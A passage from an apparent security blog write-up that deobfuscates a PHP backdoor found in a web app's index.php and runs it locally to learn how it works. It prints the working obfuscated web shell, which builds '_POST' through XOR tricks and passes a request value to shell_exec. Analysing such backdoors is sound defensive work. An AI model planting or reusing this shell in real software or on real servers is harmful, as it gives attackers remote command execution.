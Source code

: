 Well, no. I haven't started looking. So far there's really only two files that are interpreted by the server; Index.php and Download.php. There may be more, but since we've leaked the source of Download.php, let's check out index.

![[https://blog.spookysec.net/img/Pasted image 20230622145246.png]](https://blog.spookysec.net/img/Pasted image 20230622145246.png)

Sure enough, there it is. That's a really nasty looking chunk of PHP - let's take a stab at decoding it. So, the first thing I like to do is add some newlines. My preferred method is to plop this guy in Sublime, search for all the semi-colons with ctrl+f, select alt+enter, move over **once** to the right and press "enter" to insert a newline. In the end we should be left with something like this:

```php
<?php $_=``.[];
$__=@$_;
$_= $__[0];
 $_1 = $__[2];
 $_1++;
 $_1++;
$_1++;
$_1++;
$_1++;
$_1++;
$_++;
$_++;
$_0 = $_;
$_++;
$_2 = ++$_;
 $_55 = '_'.(','^'|').('/'^'`').('-'^'~').(')'^'}');
 $_ = $_2.$_1.$_2.$_0;
 $_($$_55[_]);
?>
```

Well, that's certainly an interesting backdoor. When I first looked at this, I didn't really understand what in the world was going on. It's not quite obvious. My first instinct when i don't understand what's going on it to toss it immediately in ChatGPT!

That was a joke. I normally run the code to get a better understanding of how it's working. I like to use PHP's built in server - you can spawn it with ``php -S 0.0.0.0:80``. I saved the php file as ``backdoor.php``, so I'll have to hit that endpoint to make it load.

![[https://blog.spookysec.net/img/Pasted image 20230622145959.png]](https://blog.spookysec.net/img/Pasted image 20230622145959.png)

And we recieved a 500 error. This means an error occured on the servers end. Looking up at the console, there's a super menacing red line. The error states:
```
127.0.0.1:26423 [500]: GET /backdoor.php - Uncaught ValueError: shell_exec(): Argument #1 ($command) cannot be empty in /root/backdoor.php:1
Stack trace:
#0 /root/backdoor.php(1): shell_exec()
#1 {main}
  thrown in /root/backdoor.php on line 1
```
